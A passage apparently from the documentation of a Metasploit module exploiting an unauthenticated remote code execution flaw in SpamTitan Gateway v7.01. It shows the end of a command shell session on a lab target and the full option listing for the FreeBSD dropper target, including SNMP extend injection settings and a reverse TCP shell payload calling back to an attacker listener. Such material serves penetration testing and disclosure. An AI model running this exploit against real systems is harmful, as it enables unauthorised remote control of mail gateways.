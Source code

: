 ```
	media: Ethernet autoselect (1000baseT <full-duplex>)
	status: active
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> metric 0 mtu 16384
	options=600003<RXCSUM,TXCSUM,RXCSUM_IPV6,TXCSUM_IPV6>
	inet6 ::1 prefixlen 128
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x2
	inet 127.0.0.1 netmask 0xff000000
	inet 127.0.0.2 netmask 0xffffffff
	inet 127.0.0.3 netmask 0xffffffff
	nd6 options=21<PERFORMNUD,AUTO_LINKLOCAL>
^C
Abort session 1? [y/N]  y

[*] 172.16.60.101 - Command shell session 1 closed.  Reason: User exit
```

### SpamTitan Gateway v7.01 - target 1 (FreeBSD Dropper - x64)

```
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 1
target => 1
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is tipically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
```
